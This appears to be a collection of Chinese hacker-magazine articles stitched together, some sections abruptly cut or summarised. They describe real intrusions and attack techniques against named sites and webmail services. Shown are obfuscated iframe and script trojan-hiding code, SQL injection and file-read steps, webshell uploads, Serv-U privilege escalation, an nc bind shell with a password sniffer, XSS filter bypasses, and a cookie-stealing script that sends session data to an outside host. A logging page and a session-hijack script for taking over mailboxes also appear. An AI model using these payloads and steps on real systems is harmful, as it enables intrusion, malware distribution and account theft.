下面我们可以在首页插入代码 `<iframe src=http://zj1244.xinwen365.net/test.htm width=0 height=0 frameborder=0></iframe>`。当别人访问 `http://www.xxx.cn/` 的时候就会自动下载并运行我们的木马。不过这样做并不太隐蔽，如果网站管理员发现异常后，会直接在源代码里搜索 iframe 或者 http，就可以很快查到并删除我们的小马。所以我们要给挂马代码做一定的变形。

首先上传一个内容为 `document.write("<iframe src=http://zj1244.xinwen365.net/test.htm width=0 height=0 frameborder=0></iframe>")` 的 `style.css` 到免费空间上，然后在对方的首页里加入以下代码：`<SCRIPT src=//zj1244.xinwen365.net/style.css></SCRIPT>`，这样做有两个好处：

- 挂马代码里没有出现 `http`
- 没有出现 `iframe`

接着把域名和文件名做 URL 格式转换，例如把 `zj1244.xinwen365.net` 转换后得到 `%7A%6A%31%32%34%34%2E%78%69%6E%77%65%6E%33%36%35%2E%6E%65%74`（图11），把 `style.css` 转换为 `%73%74%79%6C%65%2E%63%73%73`。然后在首页 `index.htm` 里加入组合后的 `<SCRIPT src=//...></SCRIPT>`（如图12）。


现在，把 `style.css` 里的代码再转换成八进制（方法见前文）如下：

```eval(\144\157\143\165\155\145\156\164\56\167\162\151\164\145\50\42\74\151\146\162\141\155\145\40\163\162\143\75\150\164\164\160\72\57\57\172\152\61\62\64\64\56\170\151\156\167\145\156\63\66\65\56\156\145\164\57\164\145\163\164\56\150\164\155\40\167\151\144\164\150\75\60\40\150\145\151\147\150\164\75\60\40\146\162\141\155\145\142\157\162\144\145\162\75\60\76\74\57\151\146\162\141\155\145\76\42\51)
```

我们访问一下 `www.xxx.cn` 看看，成功了，效果如图13。OK，现在我们就做好了一个免杀又隐藏的网页木马了！如果把一个免杀的灰鸽子挂到访问量比较大的网站上，就等着肉鸡乖乖上线吧。好了，教程到这里就结束了。请大家尽快到官方网站下载相应补丁，以免成为别人的肉鸡。（文中涉及的 MS06-014 网页木马生成器、微型 PHP+ASP 管理器双用版、转换工具已收录到光盘中）

## 直捣黄龙之 EMI 宣传

阿布

EMI 百代唱片公司相信大家都一定知道吧，蔡依林、S.H.E、任贤齐都是 EMI 的当红歌手。这天，我准备到他们的网站上查点东西，打开网站，发现是由一个新闻系统和一个文本讨论区组成的，使用的全部是 PHP 脚本。我随手点开一个新闻，看到 IE 地址栏中的 albumshow.php?id=130，在后边加了一个单引号（图1），居然返回了网站的绝对路径，而且下面的内容也没有显示出来，看来这个地方存在注入漏洞。

albumshow.php 的源代码，可以看到这个 PHP 文件中包含了 script 文件夹下的 conn_data_db.php，很显然是连接数据库的文件，再读取 conn_data_db.php 文件（图4），晕，怎么是 ROOT 用户加空密码来连接 emi_data 这个数据库的呀？够强。不过也别高兴得太早，因为在 MYSQL 安装的时候大部分都会禁止远程连接的。来实验一下，打开牛族的 MYSQL 连接器，不出所料，连接失败。


打开 HDSI，进入 PHP 注入选项卡，把注入地址填写上。另外，我发现加上单引号和正常网页最明显的差别是“2001”这几个字符，这就是关键字符，也填写上，点击开始。HDSI 慢慢地就扫描出了这个地方存在 12 个字段，让 HDSI 来猜解一下数据库，很遗憾，没有猜出来（图2）。


对服务器扫描后发现开了 21、80、3306 端口，看来 WEB 服务器和数据库服务器是同一台服务器，如果当前连接的 MYSQL 权限为 ROOT，就可以使用 LoadFile 来读取服务器里的文件了。刚才在 HDSI 自带的浏览器里发现第 10 个字段地方很适合读文件，它读出来的东西很长，如果限制了长度也没关系。还记得刚才获得的网站的绝对目录吗？填写到 HDSI 中绝对路径的地方 D:\emi\www\albumshow.php，点击确定（图3）。我们通过查看……

现在再从网站的后台来看看，先来找后台的地址，奇怪的是通过 HDSI 竟然找不到（读者：人家的管理后台当然藏得很严密了），但是，当打开 http://www.emimusic.com.cn/admin 的时候跳出来了登录框，基于 IIS 的那种登录框，终于明白 HDSI 为什么扫不出来了。现在管理后台地址已经找到了，因为全部使用 PHP 代码，推断它的绝对地址为 D:/emi/www/admin/index.php，它的代码只有一句 `<? include("auth.php");?>`，又包含了个文件，那就再读 auth.php 这个文件（图5），它的代码也包含了一个和前面相似的文件 conn_member_db.php，不是很一样哦！再读读看，也是 ROOT、空密码连接，但是连接的数据库是 emi_member，到这里我们完全明白了。原来这个网站使用 3 个数据库，一个数据库网站前台使用，还有一个是后台使用，剩下的就是文本讨论区使用了。


图5

## 梅花一弄

可能会有朋友想到跨库来查询它的后台管理帐号和密码，一开始我也是这么想的，但是这不是 MYSQL，不是 MSSQL 啊。不对还好，还是有点发现的！MYSQL 的数据会存放在 `*.myd` 文件中，如果能知道它的绝对路径就好了，怎么办呢？可以读 my.ini 来获取啊，对方是 Win2000 系统，所以绝对路径就是 C:\winnt\my.ini 了（图6），读出来了。MYSQL 的安装目录为 C:\mysql，那么它的数据库应该存放在 C:\mysql\data\emi_member 这个文件夹下了。那么文件名呢？在刚才的 auth.php 中有这么一句 `$query="select id from admin where name='$PHP_AUTH_USER' and paswd='$PHP_AUTH_PW'";`，可以确定它查询的是 admin 这个表了。组合起来，它的完整路径就应该是 C:\mysql\data\emi_member\admin.myd 了（图7），成功读取，但是乱乱的，当然乱了，因为这个是原始数据库！那么就分离出了 2 个管理员帐号和密码，一个是 ROOT，一个是 WSADMIN。随便选一个来登录吧，HOHO 终于来到了 EMI 的后台（图8）。


图6


图8

## 梅花二弄

相当简陋的后台，不过还有几个可以传东西的地方，只能传图片和 WMV 视频，郁闷。找到好友 Maple 一文，他三两下就把 PHPSHELL 给传了上去。他说后台的上传代码没有写好，把上传的页面保存下来（图9），由于后台身份是通过 2 个变量来验证的，分别是 PHP_AUTH_USER 和 PHP_AUTH_PW，那么就把它们的值直接赋好。还有一个关键变量 pic_filename，它控制着保存文件的文件名，直接把它的值改为 xxx.php，然后再把程序的 ACTION 地址填补完整。由于这个表单的格式不是很完整，再修复一下，最后直接使用 IE 打开，选择一个 PHPSHELL 上传就 OK 了，然后通过查看新闻来找到 PHPSHELL 的地址（图10）。成功上传了 PHPSHELL 后，那再提权吧。按照常理，MYSQL 依赖 LocalSystem 权限启动，那么执行命令的时候应该也差不多才对，但是这台服务器却没有那么高的权限。服务器里装着 Serv-U，提权方便多了，我运行 EXE 版和 PHP 版的提权工具都不成功，真的郁闷了，以前我使用 EXE 版本的提权工具只成功过 2 次而已，或许真的是我人品不好吧！不过通过 **netstat -an** 查出了服务器还开着终端服务的，只是把端口改了。


图7

```html
<style="BORDER-RIGHT: 1px solid; BORDER-TOP: 1px solid; BORDER-LEFT: 1px solid; BORDER-BOTTOM: 1px solid" ...>
<input type=hidden name=PHP_AUTH_USER value=root>
<input type=hidden name=PHP_AUTH_PW value=...>
<input type=file name=pic_url>
<input type=hidden name=pic_filename value=q.php>
```

图9


FTP 服务器端口为 1234，SERV-U 默认的管理账号和密码，双击一下，就开始连接了。成功连接，我们添加一个拥有 C 盘全部权限的管理员账号，然后再在 CMD 下使用 FTP.EXE 登录主机执行命令（图13）……


## 梅花三弄

我想试试既麻烦而又有效的 SERV-U 端口转发提权方法，先把 **fpipe.exe** 传到服务器上，再在 CMDSHELL 中执行命令……建立成功了一个数据管道，本地安装一个 SERV-U，建立一个 FTP 服务器，也就是远程管理（图12）。


入侵到此就结束了，总结一下。管理员做了很多防护，但是他万万不应该用 ROOT 来连接，即使不让外部连接这样做也很危险……而且管理员的密码也是非常简单，有这么多的问题，不被入侵才怪呢。

## 黑客术语小补习

### 什么是 SYN 扫描

- 这种扫描方式也被称为“半打开”扫描，因为利用了 TCP 协议连接的第一步，并且没有建立一个完整的 TCP 连接。
- 所以它的速度较快，但准确率就有所下降。
- 实现办法是向远端主机的某个端口发送一个含有 SYN 标志位的 TCP 数据包。
- 如果主机反馈一个 SYN|ACK 的数据包，那么这个主机正在监听该端口；如果反馈的是 RST 数据包，则说明主机没有监听该端口。
- 使用 SYN 需要 Windows 2000 以上系统。

## 入侵 Windows2003 之

### 嗅探型奇效

乱步

最近盯上了我们地区的学生网，记得以前学生网使用的是 BBSXP。要知道在以前，光一个 ORDER 变量过滤不严的问题，就可以轻松干掉一大片网站！不过，管理员这次学乖了，用上了 PHPWind v4.3.2，这个东西我不怎么精通，而且网上也没有公布该版本有什么漏洞。先来简单判断一下主机类型，把文件后缀改成大写，提交后页面正常返回，基本上可以确定是 Windows 系统。

从正面没有找到什么可以入侵的方法，那就从侧面攻击吧，旁注！很顺利地通过上传漏洞得到了一个 ASPSHELL，如图1。


图1

都采用默认设置，也就是安装路径为 C:\Progra~1，要是没有设置权限，即使是 user 权限也可以浏览目录的，但也只是有浏览的权限。我输入路径 C:\Progra~1，运气真好，目录全列出来了，如图2，还有天盾 DDOS 防火墙，还有 RADMIN，却怎么也没有看到 SERV-U。难道管理员也知道 SERV-U 的危险，使用的其它的 FTP 服务器，好像也没有看到呀。想想 RADMIN，要是咱有权限可以更改密码 “r_server /pass:123456 /save /silence”（RADMIN 是以服务运行的，也就是 SYSTEM 权限运行的）那该多好啊，不然让我读一下注册表也行啊！算了，不白日做梦了，还是找其它方法吧！

对方支持 PHP 是肯定没错的了，上传了个 PHP 文件，访问一下，忽然提示 404 出错，看来该目录不支持 PHP。那来找一下 C:\PERL，存在，哇，很少看到 CGI 的 WEB，手头上也没有 CGI 的脚本木马。我到百度上搜索一下，找了一个上传上去，又是 404 错误，真倒霉！对了！Windows2003 默认是支持 ASP.NET 的，要是管理员没设置好的话，咱们可是有 USER 权限啊，我马上上传一个 ASPX 的探针并建一个 BIN 的文件夹放上探针的 DLL 文件，如图3。


图3


图2

有了 webshell 就好办了，来刺探一下信息。发现 wscript.shell 和 shell.application 都被删除了，FSO 倒是支持，虽然建了个独立的账户，却不能跳到别的 web 网站。在 C:\windows 下也没看到 my.ini，不然的话 my.ini 里可是有 mysql 的 root 密码的。查看对方的 web 组件，发现使用的是 IIS 6.0，看来对方的系统是 Windows2003。

众所周知，目前在 2003 提权基本上只能依靠第三方软件的漏洞，比如著名的 SERV-U、ccproxy 6.2 以下的 HTTP、TELNET 的缓冲区溢出等。有一些会把用户名和简单加密的密码放在 ini 文件中，也有一些 FTP 喜欢把密码存放在配置文件里，甚至自动保存密码。这样的话，只要有个思路看看是哪种可以轻松搞定，或者也可以尝试使用替换系统服务等的方法来进行提权。有一些管理员很信任 2003 系统，文件安装基本上都采用默认设置。

看来该目录支持 ASPX，我又上传了个 LAKE2 的 ASPX 木马，被杀了，只好改用 C/S 的木马。在探针文件 `<%@ .Page language="c#" Codebehind="check.aspx.cs" AutoEventWireup="false" Inherits="AspNetCheck.WebForm1" %>` 下插入这一句脚本并上传 WebAdmin2Y.dll 到 BIN 目录里。

```csharp
<script language="C#" runat="server">
WebAdmin2Y.x.y aaaaa = new WebAdmin2Y.x.y("add6bb58e139be10");
</script>
```

马上连接一下，执行命令，发现 cmd.exe 拒绝访问，又是 Windows2003 对 cmd.exe 的限制。突破方法很简单，我们自己上传一个 cmd.exe，先用 FSG2.0 压缩一下，290K 变成 107K 了。这都是 IIS6.0 惹的祸，不可以上传超过 200K 的文件。你也可以利用 xmlhttp 组件从自己的空间上下载，成功上传后在 PATH 下输入 `e:\wwwroot\****\web\cmd.exe`，command 输入……

## 一个人的战争

“whoami”，查看一下我们当前的权限，如图4，果然是 USER 权限！


我执行 **net start** 查看了一下开启的服务，开启的服务挺多的，连3389都开了，不知道为何有了3389后还要再弄个 RADMIN？FTP 使用的是系统自带的，微软的 FTP 帐号可是和系统的帐号挂钩的哦！还有 McAfee，难怪刚才上传的一个木马被杀了。还有一个 IMAIL 哦，这个也是提权重点户，还发现了 FreeHostMainService……


我找日志吧，先找一下 FTP 的，`%systemroot%\system32\logfiles\msftpsvc1\`，如图6，找到了一些目录，但是都锁死了，跳不过去啊，但是也找到了我的目标——学生网，其用户名为 hulort，而且经常登录 FTP……以后大家要是遇到了 winwebmail 可别放过它啊！


McAfee 的路径是 `C:\Docume~1\All Users\Application Data\Network Associates\VirusScan`，找了半天，发现每天都进行更新病毒库……忽然想到是否可以改一下 RADMIN 的注册表 `[HKEY_LOCAL_MACHINE\SYSTEM\Radmin\v2.0\Server\Parameters]` 的键值 Parameters，但 AKE2A 木马提示错误。

问了一下朋友，他跟我提到了 NC，对于 sniff，利用 NC 反弹一个 CMDSHELL，然后在 CMDSHELL 下使用古老的技术一嗅探！先找几个在 USER 权限下可以执行的目录，我选择的是 `C:\Docume~1\All Users\Application Data` 目录，直接把 NC.EXE 和 SVCHOST.EXE（其实就是改名的 X-SNIFF）上传上去……执行命令：`C:\Docume~1\All Users\Application Data\nc.exe -L -e c:\windows\system32\cmd.exe -p 5724`。


```bash
svchost.exe -tcp -pass -hide -port 21 -log 1.txt
```

运行咱们的嗅探器吧……嗅探的是21端口。若对方有防火墙，还可以尝试使用 nc 绑定对方端口获取连接。第二天看到结果，密码到手……

> （文中涉及的工具如 3389 登录器、aspx 探针、CCPHC.exe、xsniff、Webadmin2Y、WebTool、nc 以及 sniff.exe，光盘中已收录）

### X小编语：

本文重点并非前述入侵及得到 webshell 的过程，而是在提权不成功时，利用嗅探工具获取对方 FTP 帐号和密码。并讨论了 xsniff/sniff.exe 在普通权限下的使用问题。

图9下方说明文字：上绑定 `C:\windows\system32\cmd.exe` 并一直监听，连接后在 NC 中出现了 SHELL。

## 惊爆百度、TOM、21CN 系列搜索引擎漏洞

冰河流剑


你觉得百度网站的安全性很可靠吗？有没有想过搜索站也有漏洞？作者引出对跨站挂马、地址变形、错误信息利用等问题的观察，并说明漏洞发现依赖细心与长期积累。


### 一、“百度快照”，你留心了吗？

通过一次搜索与点击过程，作者在百度快照中看到“可尝试打开无 javascript 的快照”提示，由此产生疑问：快照页面中的 javascript 是否可被利用执行，从而引出漏洞测试思路。

### 二、百度快照，为我所用

作者在 MSN 空间页面中加入脚本相关代码进行测试，说明如何借助快照环境观察执行效果，并给出示例页面地址与测试步骤。


```html
<iframe src="http://astro.qq.com/index/ladyastro.htm"
 width="200" height="300" frameborder="no" border="0" marginwidth="0" marginheight="0" scrolling="no"></iframe>

<IFRAME style="WIDTH: 180px; HEIGHT: 25px" marginWidth=0 marginHeight=0 src="http://bbs.qq.com/radio.html" frameBorder=0 width=180 scrolling=no height=30></IFRAME>
```

很显然，上面的代码利用了 `<iframe></iframe>` 标记，可以在网页中显示一个网页框架，打开其它网页的内容。参数中的 `width` 和 `height` 是用来控制网页框架大小的。经常研究挂马的朋友一定很熟悉这个语句。不过因为原来的 MSN 空间网页本身不允许执行这个代码，代码只是以文字的形式显示在网页中。现在我们来看看这个网页被百度快照一下以后，变成了什么样呢？

打开该网页的快照地址：`http://cache.baidu.com/c?word=iframe...`，可以看到在网页上方依然显示了“……可以尝试打开无 javascript 的快照……”之类的提示。现在再看看网页中刚才的“星座占卜”和“在博客上添加广播”的代码全部都执行了！在网页中赫然显示着两个网页框架（图3）！只不过由于 `<iframe></iframe>` 中指定的网站本身已不存在，所以框架中是空白网页。想一想，假如这两个网址被指定为网页木马的地址呢？如果 `width` 和 `height` 参数被设置为 0 的话，不就会隐藏地打开一个网页木马了吗？


### 三、其它挂马代码执行效果

从上面的网页可以看出，在百度快照中，`<iframe></iframe>` 语句挂马是有效的，但是挂马的代码有很多，现在我们再来测试一下其它常用的挂马代码效果如何？比较有效的几个挂马代码如下：

```html
js挂马  <script src=http://www.xxx.com/muma.js></script>
js变形加密  <SCRIPT language=javascript src=http://www.xxx.com/muma.txt></script>
```

经过测试，这两个代码也同样是可以在百度快照中被执行的。先来看看代码原网页，网址为 `http://hackba.com/2007/xuetang/ruqinjiaocheng/200607/2620.html`（图4），再看看被百度快照一下后成了什么样？打开百度快照网页 `http://cache.baidu.com/c?word=...`

`200607/2620%2Ehtml&b=0&a=97&user=baidu`，可以看到 JS 挂马语句被执行了，原来的代码处显示为空白，实际上在背后打开了网址 `http://www.xxx.com/muma.js` 对应的 JS 文件（图5）。


另外，常见的挂马代码也有使用弹出窗口方式的，代码语句为：`<script language="JavaScript">window.open("test.html","测试公告窗口", "width=340,height=163,toolbar=0,status=0,menubar=0,resize=0");</script>`。先打开原网页 `http://www.quan-xin.com/zhangxw88/study/dreamweaver/dw016.htm`，网页中是代码文字（图6）。


再打开快照网页 `http://cache.baidu.com/c?word=script%2Cwindows%3B%3E%3Bopen%2Chttp...`，可以看到网页中的代码已被执行，只不过弹出的窗口被 XP SP2 自带的广告窗口拦截功能给阻止了（图7），如果能够写一些类似网页广告突破 SP2 弹出窗口设置的代码的话，那么同样能够进行挂马，自动弹出木马网页。

另外，笔者还测试了收集 Cookies 信息的代码，同样能正常执行，只不过收集的是当前的百度 Cookies 信息，没有什么用。

### 四、百度快照挂马的威力

百度快照挂马的优势可以说无以伦比！试想如果别人发给你一个类似“http://cache.baidu.com/c?……”的网址，你会疑心这个网址中包含木马吗？直接打开百度快照进行挂马跨站攻击，发送其链接地址，欺骗成功率也是非常高的！

每天都有无数的上网者在利用百度进行搜索，其中有许多喜欢点击快照查看的用户，也难免有一些网页打不开，不得不点击百度快照，因此百度快照挂马面向的是数千万的网民，其效果绝不是在一个普通大型网站上挂马所能达到的！让所有网站都被间接挂马跨站！这是百度快照挂马的最大优势！无论是新浪、网易，还是什麽安全性再好的网站，都逃不脱被挂马跨站的命运。因为这些网站上也许对用户输入的挂马语句进行了过滤，语句不会被网页执行，但是经过百度被其“快照”一下子，语句就能成功执行了！另外，百度快照挂马可以说没有任何代码输入的限制，你可以任意编写足够隐蔽的挂马代码，限于篇幅，我们将在下期通过实例来介绍如何利用百度快照进行挂马攻击！


申明：本文所提到的漏洞，笔者在2个月之前就已经在国内各大邮箱提供服务商测试成功，影响包括 163.com、新浪、搜狐、Tom.com、126.com、21cn 等等，可以在 `http://www.loveshell.net/blog/blogview.asp?logID=90` 看到测试成功的截图。很可能已经有利用该漏洞的蠕虫出现，本文在此讨论这些邮箱出现漏洞的原因，以及关于如何利用该漏洞进行攻击和进入他人邮箱，所有代码以及方法仅做技术讨论以及演示之用。希望官方在得到这个消息之后尽快修补漏洞，广大的 webmail 用户在收取邮件的时候也要小心，不要被人恶意攻击。也希望广大的技术爱好者在官方漏洞修补之前不要利用该漏洞进行攻击，所有违法行为与本文无关。

跨站脚本漏洞，又称为 XSS 漏洞，或者 Html 注入漏洞，所产生的原因就是用户的输入没有经过严格的过滤而通过一定的形式最终显示在其他浏览者的浏览器上。如果恶意用户输入了 js 脚本，那么这些 js 脚本将最终在其他浏览者的浏览器里执行，也就导致了跨站脚本攻击，所以可能导致 Cookie 的获取，结合浏览器漏洞可能导致病毒植入等问题。具体的介绍可以参考其他文章以及以前的杂志。好了，在做了简单的介绍后，我们就以使用比较广泛的 163 邮箱来讨论这个漏洞以及演示这个漏洞的攻击及危害。


首先去 163.com 弄个邮箱，163 邮箱为了达到多姿多彩吸引用户的目的，支持了好多本来危险的东西，譬如插入图片，一些 URL 插入效果，还有什么签名等，更要命的是签名居然支持 Html。嘿嘿，这么多危险的东西，如果在哪个方面过滤不严，就很有可能被我们利用！首先去发个邮件，在所有可以填写的地方都插入 `<shehe>`，如图1。看看它对这个代码是如何处理的吧！发送之后收取邮件，就可以看到所有的 `<>` 代码都被过滤了，如图2。

看来想自己弄个 Html 标记出来的可能性不大，那么利用已经存在的 Html 标记呢？如利用它的 img 标签来跨站！我们知道，一个 Img 标记引起跨站的方法有如下几种：


```html


```

我们可以试试！在邮件内容里插入一个 Img 标签，然后 URL 里写上 `ddd" onerror=alert()`（图3）。看看效果，如图4。看来程序能检测出利用事件机制跨站，通过把 onerror 转换为 xnerror 来防止了跨站攻击。我再测试了几个，果然都被这样阻止了。那么试试下面这种跨站方式吧！还是插入图片，在 URL 里写上 `javascript:alert()`，如图5，提交之后看看结果，如图6。汗！果然不容易，javascript 变成 java-script 了，我又尝试用一些 Html 代码代表属性的方法，但也都没有成功绕过，貌似没有漏洞了。

## 一个人的战争


仔细想想它的这种过滤方式，可以假设是在提交的代码里检测 `javascript`，如果发现就做相应处理，如果不出现 `javascript` 呢？我们知道在属性里如果出现 tab 键的话，属性还是会起作用的，譬如：`` 等同于 ``（注意其中的空格是 tab 键）。嘿嘿，属性值没有因为 tab 键存在而受到影响！不知道 163 有没有考虑到这点呀！不管，先去测试一下！

我们还是插入图片，在 URL 里写上 `javasc ript;alert()`（其中的空格是 tab 键），这个代码最终会在 img 标签里，提交如图7，查看邮件效果，如图8，哈哈，果然存在这个问题，弹出了对话框，XSS 漏洞被触发了！


既然发现了漏洞，那么现在分析下！该漏洞过滤了 `javascript` 以及 `script` 代码。由于需要限制属性，163.com 过滤了 `"`，但是没有过滤 `'`，所以我们还是能正常地引入字符串。对于其它我们需要的代码基本没有什么过滤，因为这个地方写起代码很麻烦，不适合我们引入复杂的 js，如果要利用的话就可以先直接利用该漏洞引入一个 js 文件，然后控制该 js 文件达到利用漏洞，而引入 js 需要的 `<script>` 是可以通过用 `""` 拆分达到绕过的目的的！好，现在尝试写入一个 js 吧！文件内容：`javascript:document.write('<scri'+'pt src=http://www.xxx.com/1.js>'+'</scri'+'pt>');`。

看看，我将后面的 `<script>` 拆分了，这样就达到了躲避过滤的目的！发送邮件看看，晕！不知道 163 怎么过滤的，居然把 1.js 变成了 1.xs，如图9。呵呵，这样能起作用么？要知道 script 的属性里边是可以带任何文件的，很简单，只需要把我们的 1.js 改成 1.xs 就可以了！在 1.xs 里写上 `alert(document.cookie);`（弹出 Cookie），然后再次打开邮件，哈哈，引入的 js 执行了！弹出了 Cookie，如图10。事实证明引入 js 是完全可行的！XSS 漏洞成功。

## 一个人的战争

被我们利用！


既然证明了漏洞的存在，那么考虑一下如何利用吧！一般人喜欢挂马，这可以通过引入一个 Html 来实现。既然我们可以引入任意的 js 文件，那么就可以在 js 文件里用如下代码引入一个 Html，如果该 Html 是危险的 Html，那么就可以引入病毒了！代码如下：

```javascript
document.write('<iframe style="display:none" src="http://www.ilovews.com/mm.htm"></iframe>') // 引入用户不可见的 mm.htm
```

呵呵，挂马就不用我教了吧！还有个比较有意思的就是如何进入别人的邮箱，这也完全可以通过精心编制 js 来实现！我们知道，即使在 Cookie 里，163 的密码也是不可见的！但是完全可以通过窃取 session 实现，因为 163 记录你登录以及区别用户的方法就是通过 session 实现的，而客户是提交一个 sessionId 去服务器方面认证的。在这里 163 和其他网站都有个致命的错误，就是 session 里面并没有绑定 IP，也就是任何浏览器或者程序都可以用这个 sessionID 去服务器方面冒充身份……首先将我们的 1.xs（因为 163 硬是要把 1.js 转换哦）内容转换为如下内容：

```javascript
var code=''; // 定义要注入的代码
var target='http://www.lovesbell.net/cookie.asp';
info=escape(document.location+'@@@'+document.cookie);
target=target+info;
code='<iframe style="display:none" src="'+target+'" width=0 height=0></iframe>';
document.write(code);
```

上面的内容在以前我用过多次了，但是仔细看下就发现有点区别。看看这句代码 `info=escape(document.location+"@@@"+document.cookie);`，我不仅获取了 Cookie，还取得了当前页面的位置……通过分析邮箱服务器地址与 sid 等会话参数，可以进一步伪造会话身份进入别人邮箱。

```vb
dim fso,file,str
str=unescape(request.ServerVariables("QUERY_STRING"))
Const ForReading=1, ForWriting=2, ForAppending=8
Set fso=Server.CreateObject("Scripting.FileSystemObject")
path=server.mappath("loveshell.txt")
set file=fso.opentextfile(path,ForAppending,TRUE)
file.write(XSS)
file.write(str)
file.write vbCrLf
file.close
```

这样就会生成 Loveshell.txt，里面有我们劫持所需要的一切信息！我打开邮件后，在 Loveshell.txt 里面收到了如下的内容：

```text
XSS=http://g3a26.mail.163.com/coremail/fcg/ldapp?...@@@Province=0450|City=0451|...|NETEASE_SSN=...|S_INFO=...|Coremail=...|s_hosts=g3a26.mail163.com|...
```

注意是以“@@@”分开的，呵呵，很容易知道服务器是……

## 一个人的战争

g3a26.mail.163.com，SID 是 cAKYWuHzBkZAExCe，Cookie 就是后面的内容……首先构造邮箱主页地址，进入邮箱后查看地址栏，得到 `http://.../coremail/fcg/ldapapp?funcid=main&sid=...`，并讨论如何带 Cookie 访问。

```css
body {
  background-image: url("javascript:document.write('<script src=http://www.loveshell.net/nc.js></script>')");
}
```

由于是引入 CSS，所以更隐蔽，几乎没有长度限制。文中继续说明可在 js 中添加代码，并讨论 Session 时效问题及利用方式。

图11

```asp
<%
'Code From Lake2 Thx
str = request.ServerVariables("QUERY_STRING")
Set xPost = CreateObject("Msxml2.ServerXMLHTTP")
xPost.Open "GET", "http://g3a26.mail.163.com/coremail/fcg/ldapapp?funcid=main&sid=...", False
xPost.setRequestHeader "cookie", str
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
...
sGet.SaveToFile Server.MapPath("a.txt"),2
%>
```

图12

是否只有在邮件正文里才会有这个漏洞呢？文章继续讨论 163 邮件个性签名中的 HTML/CSS 支持，并给出通过 `LINK REL="stylesheet" HREF="http://www.loveshell.net/1.css"` 引入样式的方式，再说明如何通过 CSS 属性中的 URL 执行脚本。

文中进一步说明可通过脚本抓取指定 URL 内容并写入文本，但也有局限；随后提到可借助联系人列表地址进行扩散，最后强调跨站危害大并呼吁厂商修补漏洞。

## 国内邮箱的跨站之行

## SimpleBlog 的一个漏洞分析及利用

曾云好

SimpleBlog 是国外一个用 ASP 写的博客程序，目前主要有 2.0 和 2.3 两个版本。我是今天在逛国外博客的时候发现它的，于是把它的两个版本下载下来研究了看。目前国内几乎没有什么网站采用这套程序，不过在国外却非常流行，在 Google 中输入关键字：powered by SimpleBlog 进行搜索，该有约 93600 项符合的查询结果（图1）。该程序的可用性非常强，可是在安全性方面做得不够好，存在不少漏洞。

### 一、注入

该漏洞的存在非常明显，而且非常严重，因为该程序没有对网站用户名和密码进行任何加密，所以通过注入就可以得到明文密码。2.0 和 2.3 两个版本同时存在注入漏洞的文件有两个。

- 1. `poll_reg.asp`，代码为：

```asp
<%
strAID = request.QueryString("answer")
strpID = request.QueryString("pid")
strSQL = "UPDATE TLRESULTS Set icount = icount + 1 WHERE aid_FK = " & strAID
' 没有过滤参数，直接提交导致漏洞出现
Set MyConn = Server.CreateObject("ADODB.Connection")
MyConn.Open strConn
MyConn.Execute(strSQL)
MyConn.Close
%>
```

- 2. `comments.asp`，代码为：

```asp
<%
Sub InsertComment()
bID = request.Form("id")
strName = request.Form("name")
...
Response.Redirect("comments.asp?id=" & bID)
' 直接 POST 提交，未过滤，导致漏洞出现
%>
```

这里我们拿官方网站来注入，地址为 http://blog.8pixel.net/。因为它的版本是 2.3，所以就对 comments.asp 进行注入，该文件的作用就是查看文章的评论及发表评论。单击“comments”这个单词就可以进入这个文件了（图2）。

我用工具来猜解，不过在注入之前要增加一些表名和字段，增加的表名为 T_USERS，增加的字段为 uUSERNAME 和 uPASSWORD。设置好了以后就用啊D来扫，用不了多久官方网站的密码就到手了（图3）。

而 2.0 另外还存在一个注入漏洞文件，是 rss.asp，代码为：

```asp
Response.Write "<date>" & intToDate(Rs("b_date")) & "</date>" & vbCrLf
Response.Write "<time>" & Rs("b_time") & "</time>" & vbCrLf
Response.Write "<link>" & strURL & "?view=plink&id=" & Rs("id") & "</link>" & vbCrLf
' 没有过滤 id 参数，导致漏洞出现
Response.Write "<id>" & Rs("id") & "</id>"
Response.Write "</item>" & vbCrLf
rs.MoveNext
```

该文件的作用是查看博客上的内容，点击图2中的“link to this entry”就可以进入查看该文件内容。这里和上面一样，先加字段和表名到工具中，然后随便打开一个文件，用啊D狂扫就可以了，这样我们也可以轻易得到 2.0 的管理员密码（图4）。版本 2.3 就不存在这个漏洞了，不过他们也太大意了，三个地方存在漏洞，只补上了一个。通过上面的代码我们知道这个漏洞太明显了，是比较经典的注入代码，很适合新手学习注入。

```html
<td><strong>Title</strong></td>
...
<input name="header" ... value="<%=rs("b_headline")%>">
...
<td><strong>Content</strong></td>
...
<textarea name="main" id="main" ...><%=rs("b_content")%></textarea>
```

### 二、跨站

#### 1. 前台跨站

当我在看 comments.asp 文件注入漏洞的时候，发现有一个用户可以发表评论的地方，这个时候我就担心过滤不严格而出现跨站漏洞，想到还真的存在。代码如下：

```asp
<%
Sub InsertComment()
  bID = request.Form("id")
  strName = request.Form("name")
  strEmail = request.Form("email")
  strUrl = request.Form("url")
  strComment = request.Form("main")
  strComment = replace(strComment,"'","''")
  strComment = replace(strComment,vbCrLf,"<br>")
  str_userIP = request.Form("userIP")
  strSQL = "INSERT INTO T_COMMENTS (...) VALUES (...)"
  MyConn.Execute(strSQL)
End Sub
%>
```

看到了吧，只对评论内容进行了单引号过滤，而评论的 name、email、url 却没有进行任何过滤，随后就是这样直接插入到数据库中去。它们的长度也没有进行限制。这段代码就是典型的跨站漏洞。往里面输入：`<script>alert("cmd")</script>` 提交，我们来看看效果，如图5。

#### 2. 后台跨站

后台的跨站漏洞存在于编辑文件上，而且两个版本都存在。这个漏洞主要由 bloglist_edit.asp 和 dostuff.asp 两个文件过滤不严。

bloglist_edit.asp 的代码为：

```asp
strHeader = request.Form("header")
strHeader = replace(strHeader, ...)
strContent = request.Form("main")
strContent = replace(strContent, ...)
strSQL = "INSERT INTO T_WEBLOG (...) VALUES (...)"
Response.Write(strSQL)
Response.End()
```

dostuff.asp 的代码如下：

从上面我们可以看到，就是过滤了单引号，和前台的代码差不多。我想是程序员太相信这个后台了吧，在 2.3 版本中也存在这个漏洞。输入代码：`<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>` 来看效果（图6）。

### 三、挖掘

对于第七期上“挖掘宝典”一文，看过的朋友应该知道，我们完全可以利用该文介绍的知识来进行挖掘。关键词使用：`powered by SimpleBlog`。对于查找前台跨站，目录组为：SimpleBlog 或者 blog；文件名为：comments.asp?id=...。对于注入，目录组为：SimpleBlog 或者 blog，文件名为：view=plink&id=（id 也是多少随便填，不过最好填小一点）。

